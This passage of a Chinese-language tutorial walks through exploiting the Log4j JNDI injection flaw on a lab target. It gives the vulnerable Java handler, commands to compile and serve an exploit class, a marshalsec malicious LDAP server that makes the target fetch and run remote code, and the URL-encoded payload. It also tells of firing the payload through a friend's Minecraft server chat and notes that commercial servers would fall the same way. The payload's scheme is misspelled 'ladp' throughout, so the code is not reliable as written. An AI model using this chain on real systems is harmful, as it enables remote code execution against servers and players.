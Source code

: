    ```java
       public String hello01(@RequestParam(value = "name", required = false) String name) {
           name = "${jndi:ladp://192.168.1.3/exp}";
           log.info("名字：{}", name);
           return "你好 SpringBoot 2，我是" + name;
       }
   }
   ```

   

#### 2. 攻击机进行利用

1. 编译 exp.java 生成 exp.class（尽量使用 1.6 编译，运行环境向下兼容）

   ```shell
   javac exp.java -source 1.6 -target 1.6
   ```

2. 用 python 启动一个 web 服务，与 exp.class 在同一文件夹，方便访问

   ```shell
   # python2
   python -m SimpleHTTPServer 8080
   # pyrhon3
   python3 -m http.server 8080
   ```

3. 使用 marshalsec 在 8081 端口起一个恶意的 ldap 服务

   ```shell
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://192.168.1.3:8080/#exp 8081
   ```

4. 直接访问 http://192.168.1.2:8080/hello?name=%24%7Bjndi%3Aladp%3A%2F%2F192.168.1.3%2Fexp%7D 即可打开靶机计算器，请求参数中的 %24%7Bjndi%3Aladp%3A%2F%2F192.168.1.3%2Fexp%7D 其实就是 ${jndi:ladp://192.168.1.3/exp} 进行 url 编码后的结果，也可以直接访问，因为程序中没有传入参数，默认的 name 参数就是 ${jndi:ladp://192.168.1.3/exp} 。

#### 3. 反弹 shell，后门+权限维持，提权

略...

### 四、MC 杂谈

1. 首先说明一下已确认 MC 1.7.x 至 1.18.x 的客户端与官方服务端均会受此漏洞影响。
2. 尝试渗透了一把基友开的 MC 服务器，登陆服务器以后，直接聊天框输入 ${jndi:ladp://xx.xx.xx.xx/exp} ，我的电脑以及基友服务器全都中招，可见如果在商业服务器上执行一下有多么可怕，所有在线玩家连带服务器直接沦陷。